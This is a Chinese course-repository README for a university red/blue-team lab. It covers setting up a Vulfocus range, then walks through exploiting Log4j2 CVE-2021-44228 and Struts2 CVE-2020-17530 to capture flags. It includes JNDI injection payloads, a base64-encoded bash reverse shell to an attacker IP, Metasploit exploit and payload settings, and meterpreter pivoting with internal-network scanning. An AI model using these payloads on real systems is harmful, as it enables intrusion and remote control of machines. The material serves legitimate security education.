<div align="center">

<h1 align="center">
    CUC网络安全攻防实践（Network-security-attack-and-defense-practice）
    <h4>
        2023年CUC网络安全攻防实践仓库
    </h4>
</h1>
</div>


## 📜仓库说明

本仓库基于[基础团队实践训练](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html#_12)跟练复现完成的 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 。其中以红蓝队角色完成相应的网络攻防场景在线，其中主要是基于Vulfocus平台提供的靶场环境进行实验

以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色。

- 红队：需完成漏洞存在性验证和漏洞利用。

- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。

- 蓝队威胁处置：漏洞利用的缓解和漏洞修复（源代码级别和二进制级别两种）。

上述能力的基本评分原则参考“道术器”原则：最基础要求是能够跟练并复现 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 中演示实验使用到的工具；进阶标准是能够使用课程视频中 **未使用** 的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置。

### 分支说明

- `main`分支存放项目最终实践报告
- 其他各分支代表各组员个人实践报告、日志记录和代码文件

## 📝实践达成指标

- [x] 完成基础环境配置
- [x] 红队实现对环境漏洞的挖掘，并利用漏洞实现攻击
- [x] 蓝队对模拟场景下的出现的攻击进行检测和识别处理
- [x] 蓝队完成对漏洞的缓解或修复
- [x] 实现自动化脚本编写和检测工具

## 📒项目日志

项目实践日志请访问👉[记录日志](https://www.baichuanweb.cn/article/example-68)

## 🚀实践过程

### 1 环境搭建

> 万事开头难，只要肯攀登

**[场景镜像文件](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/tree/main/code/%E5%A4%9A%E7%BD%91%E6%AE%B5%E6%B8%97%E9%80%8F%E5%9C%BA%E6%99%AF%E9%95%9C%E5%83%8F)**

**1.配置虚拟机，调节网络环境**

本次实践中，虚拟机配置两张网卡：`Host-only`网卡和`网络地址转换(NAT)`


当然要完成红蓝攻防对抗，需要准备攻击者主机和靶机，直接使用多重加载镜像，能够有效简化整个实验过程：


同时为了使得挂载的两个虚拟机的ip地址不同，可以自行手动更新地址：


**2.从仓库中拉取到本机的虚拟机系统当中**：

在模拟红蓝网络攻防实践的整个过程之前，需要确保本地环境部署完毕，当然在黄药师录制好的[视频指导](https://www.bilibili.com/video/BV1p3411x7da/?p=22&spm_id_from=pageDriver&vd_source=61a1cf010feeebc60643481f16fc695e)下可以很快的部署完能够省略很多比较繁琐的操作：

```shell
git clone https://github.com/c4pr1c3/ctf-games.git
```

通过使用Docker Compose来构造docker环境，其中git下来的仓库老师已经配置好对应的.yml文件，直接执行即可构建对应的环境：

```shell
sudo apt update && sudo apt install -y docker.io docker-compose jq
```

构建好后，直接运行老师给出的bash脚本即可在本地的80端口开启容器：


此处在运行`start.sh`脚本时，需要在root用户权限下执行，当然，也可以将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令：

```shell
sudo usermod -a -G docker ${USER}
```

当然以上步骤都需要确保**网络能够正常进行访问**，如果访问或者拉取镜像时出现网络限制或者超时，可以更换docker镜像源和kali镜像源：

- **更换kali国内镜像源**：

  - 使用下列命令可以直接编辑`sources.list`

    ```css
    sudo vim /etc/apt/sources.list
    ```

  - 换源地址如下：

    ```shell
    # 中科大
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
     
    # 阿里云
    deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
     
    # 清华大学
    deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    ```

  - 保存成功后命令行输入 `sudo apt update`更新软件源

    ```shell
    sudo apt update
    ```

- **更换docker源：**

  - 创建或修改 /etc/docker/daemon.json 文件，修改：

    ```shell
    cd /etc/docker
    vim daemon.json
    ```

    加入如下配置：

    ```shell
    {
        "registry-mirrors" : [
        "https://registry.docker-cn.com",
        "http://hub-mirror.c.163.com",
        "https://docker.mirrors.ustc.edu.cn",
        "https://cr.console.aliyun.com",
        "https://mirror.ccs.tencentyun.com"
      ]
    }
    ```

    重启docker服务使配置生效：

    ```shell
    systemctl daemon-reload
    systemctl restart docker.service
    ```

    查看配置是否成功：

    ```shell
    docker info
    ```

    

**3.测试部署本地的Vulfocus**

进入部署好的地址，能够看到对应的镜像列表等信息：


在镜像列表同步上游镜像，能够得到Vulfocus已经提供的镜像：


尝试下载镜像，并在容器中启动环境进行一定测试：


**4.如何去自定义一个场景拓扑镜像**、

我们在搭建整个网络攻防的模拟环境的过程中，需要去构建跨网段渗透的场景镜像，而由于官网（[在线平台](https://vulfocus.cn/#/scene/list)）已经不再提供下载和资源镜像分享，因此需要自己去设计构建相应的拓扑场景和镜像：


我们直接手动设计场景，首先，要达成跨网段和识别，进入办公区和核心区的任务，简单模拟其环境供使用这一漏洞攻防环境，我们需要准备两张网卡实现二层网络的搭建：


攻击者主机通过暴露在“外网”的靶机漏洞从而渗透攻击DMZ区域，并将其作为跳板访问，依次利用漏洞访问到核心网内的靶机：


在容器中启动场景，查看相应的镜像信息：


完成上述步骤即构建了一个双层网段的渗透测试环境的模拟。

**5.配置免密登录**

- __操作过程：__ 

  - 打开 gitbash，输入操作代码：

  ```bash
  $ ssh-keygen -t rsa 
  # 提示输入东西时，连续按3次回车即可，在~/.ssh目录下生成了id_rsa和id_rsa.pub两个文件，后者上传至目标服务器。
  # 但是因为已经生成过密钥文件了，这里就跳过这一步，权当是复习一遍之前的内容。
  $ ssh-copy-id -i id_rsa.pub server_user@ipAddr
  #server_user是服务器用户名，ipAddr是对应地址。
  ```

  

  


     - 在虚拟机上进行输入操作代码：
     ```bash
     $ vim /etc/ssh/sshd_config
     #找到/etc/ssh/sshd_config这个文件，取消以下几行注释。
     #PubkeyAuthentication yes
     #AuthorizedKeysFile .ssh/authorized_keys
     保存并退出vim：:x
    
     $ sudo service ssh restart
     #重启服务
     ```
    
     


     - 在 gitbash 中输入操作代码：
     ```bash
     $ ssh username@ip
     ```
     即可免密登录虚拟机的 Linux 系统。


 

在宿主机上实现远程免密登录确实会让实验操作更加便捷。

### 2 单个独立漏洞验证和利用

> 以 **log4j2 CVE-2021-44228** 为例

#### 检测漏洞存在性

在Vulfocus启动漏洞环境，镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动：


浏览器访问该地址`192.168.56.109:11636`

实验环境访问端口为11636，故查看到容器名称为`optimistic_blackwell`

进入容器

```bash
docker exec -it optimistic_blackwell bash
```


查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

```bash
# docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```


- 反编译

使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar


源码中有名为`Log4j2RceApplic`的类，其中正是违反了 "KISS" 原则，验证了该漏洞存在

#### 验证漏洞可利用性

- 使用 `PoC` 手动测试

>"PoC" 是 "Proof of Concept" 的缩写，意为"概念验证"。在安全领域，PoC 手动测试通常用于验证潜在的漏洞或安全问题。测试人员会尝试利用已知的漏洞或攻击技术来测试系统的安全性，并验证是否存在潜在的风险。这种测试方法可以帮助发现和修复系统中的安全漏洞，以提高系统的安全性。

访问http://dnslog.cn/获取专属随机子域名`k5o9u7.dnslog.cn`


浏览器访问`192.168.56.109:11636/hello?payload=111`地址，使用Burp Suite进行抓包，修改GET请求的payload参数

```
# ldap://dnslog获取的随机域名/随便填
payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}
```

同时对payload字段进行**编码**，否则直接访问会导致400错误


在DNSLog网站成功接收到解析记录


#### 漏洞利用

攻击者主机attacker上下载[`JNDIExploit`工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

```bash
https://github.com/bkfish/Apache-Log4j-Learning.git
```

解压

```
unzip JNDIExploit.v1.2.zip
```

攻击者主机attacker启动777端口，等待受害者主机victim反弹回连getshell

```bash
nc -l -p 7777
```


应用工具JNDI-Injection-Exploit搭建服务，格式：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```

这里的命令是想要靶机运行的命令，-A后放的是发出攻击的电脑的ip，也是存放-C后“命令”的ip地址。

构造反弹shell的`payload`

```bash
bash -i >& /dev/tcp/192.168.56.105/7777 0>&1
```

将其进行**base64加密**

```tex
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=
```

执行JNDI-Injection-Exploit

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.56.105
```


使用Burp Suite进行抓包，修改`GET 192.168.56.107:28490/hello?payload=111`的payload参数为上图框选的内容并进行编码

```
${jndi:rmi://192.168.56.105:1099/5ekovi}
```


发送后，即可发现攻击者主机的监听窗口反弹shell，查看 flag


查看flag

```bash
ls /temp
```


```bash
flag-{bmh20c56a41-fc29-44f1-9da4-0e3b7bbfb8ff}
```

在管理界面提交该flag通过


### 3 场景化漏洞攻击

> 以【**跨网段渗透**(常见的`dmz`)】为例

#### 捕获指定容器的上下行流量

为后续的攻击过程「分析取证」保存流量数据

  ```bash
$ docker ps # 先查看目标容器名称或ID
$ container_name="<替换为目标容器名称或ID>"
$ docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
  ```

  

建议放到 `tmux` 会话中，然后放到后台运行



#### 外层网络渗透

##### 🚩攻破靶标 1

从模拟显示的角度来考虑，最外层的主机负责对外提供服务，于是直接得到了提供服务的端口号，也就是vulfocus平台上场景的入口端口

因此通过Metasploit工具的平台搜索struts2或者~~不演了~~直接搜索CVE-2020-17530，如果是前者的话需要进行一点肉眼筛选，这次的漏洞编号说明是2020年的漏洞，于是可用的exploit只有2020年9月14日的：

```shell
msf6 > search struts2
Matching Modules
================
   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   1  exploit/multi/http/struts2_multi_eval_ognl       2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   5  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   6  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   7  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution

Interact with a module by name or index. For example info 7, use 7 or use exploit/multi/http/struts_code_exec_parameters
msf6 > search cve-2020-17530

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_multi_eval_ognl  2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation

Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/struts2_multi_eval_ognl
msf6 >
```

- 切换到攻击者主机 attacker 进行 metasploit 基础配置

  > Metasploit 是一款用于渗透测试和漏洞利用的开源工具，旨在帮助安全专家评估和增强计算机系统、网络和应用程序的安全性。它是一个广泛使用的渗透测试框架，包含一个控制台界面，称为 Metasploit Console 或 msfconsole，以及一组命令行工具，用于执行各种渗透测试任务。Metasploit 还提供了一个巨大的漏洞数据库和利用代码库，使用户能够更容易地利用已知的漏洞。
  > Metasploit 可以帮助安全团队或个人测试计算机系统中的漏洞，并利用这些漏洞，以检查系统的安全性和脆弱性。该工具具有丰富的功能和模块，使渗透测试人员能够执行各种攻击，包括远程执行代码、获取系统权限、发现敏感数据等。

  ```bash
  # metasploit 基础配置
  # 更新 metasploit
  $ sudo apt install -y metasploit-framework
  # 初始化 metasploit 本地工作数据库
  $ sudo msfdb init
  # 启动 msfconsole
  $ msfconsole
  ```

    

  ```bash
  # 确认已连接 pgsql
  $ db_status
  # 建立工作区
  $ workspace -a Cynthia
  ```

   

- 首先要收集服务识别与版本等信息，不断搜索并且完善关键词，最后找到我们所需的 **exp**：`exploit/multi/http/struts2_multi_eval_ognl`

  ```bash
  # search exp in metasploit
  $ search struts2 type:exploit
  # 查看 exp 详情
  # 可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
  $ info <结果编号或 Name 字段>
  # 继续完善搜索关键词
  $ search S2-059 type:exploit
  ```

   


- 找到我们所需的 exp 后就选择使用，并且选择设置合适的 exp payload

  ```bash
  # 使用符合条件的 exp
  $ use exploit/multi/http/struts2_multi_eval_ognl
  
  # 查看可用 exp payloads
  $ show payloads
  
  # 使用合适的 exp payload
  $ set payload payload/cmd/unix/reverse_bash
  ```

   

- 查看并且配置 exp 参数，确保所有 `Required=yes` 参数均正确配置

  ```bash
  # 查看 exp 可配置参数列表
  $ show options
  # 靶机 IP
  $ set RHOSTS 192.168.98.131 
  # 靶机目标端口
  $ set rport  53746          
  # 攻击者主机 IP
  $ set LHOST  192.168.98.130 
  
  # 再次检查 exp 配置参数列表
  $ show options
  ```

  

  

接下进行 getshell，如果攻击成功，查看打开的 reverse shell，进入会话后，发现无命令行交互提示信息，此时我们试一试 Bash 指令，可以发现我们已经打下了第一个靶标，查看其 `/tmp` 目录，成功得到 `flag1`。

```bash
# getshell
$ exlpoit -j

# 如果攻击成功，查看打开的 reverse shell
$ sessions -l

# 进入会话 1
$ sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
$ id
# get flag-1
$ ls /tmp
# flag-{bmh22c0ab9a-dbef-44b3-a55d-3c448528ae0d}

# 通过 CTRL-Z 将当前会话放到后台继续执行
```



#### 中层网络渗透

##### 🚩攻破靶标 2-4

当拿到外层主机的shell之后是需要对外层主机所在内部网络进行扫描，尝试找出进一步向深层进发的跳板主机，需要做的5个步骤大概是如下内容：

1. **对已攻入主机所在内网网段中其他主机进行存活验证**

2. **对存活的其他主机进行端口扫描**

3. **对已开放端口号进行信息收集，得到开放的服务的信息**

4. **从开放的服务入手获取版本寻找可用的漏洞**

5. **确定漏洞，装载payload，exploit**

很显然上面的5个步骤中这边能够走过的是1，2和5，类似于已知了漏洞的前提下进行操作

首先是将已经获得的1号会话即外层主机shell升级为`meterpreter`，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：

```shell
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions
Active sessions
===============
  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.107:4433 -> 192.168.56.1:60598) at 2023-07-26 05:44:37 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============
  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) >
```

此时使用2号会话的meterperter就可以直接查看外层主机的网卡信息了，于是便获得了一个新的内网网段`192.171.84.0/24`：



当然最主要的还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到`post/multi/manage/autoroute`模块，只需要将会话ID填入即可，之后运行便会自动添加路由信息到Metasploit的路由表中


之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP地址，可以让端口扫描更快速更高效，这里选择使用模块`post/multi/gather/ping_sweep`，填入必要的options之后就可以进行扫描了：

```shell
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep

Matching Modules
================
   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep

Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on

View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.171.84.2-254
rhosts => 192.171.84.2-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.171.84.2-254
[+]     192.171.84.5 host found
[+]     192.171.84.3 host found
[+]     192.171.84.4 host found
[+]     192.171.84.2 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

进入会话中，查看 `/tmp` 目录，成功找到 `flag2-4`

```bash
# get flag2-4
$ sessions -c "ls /tmp" -i 6,7,8
```

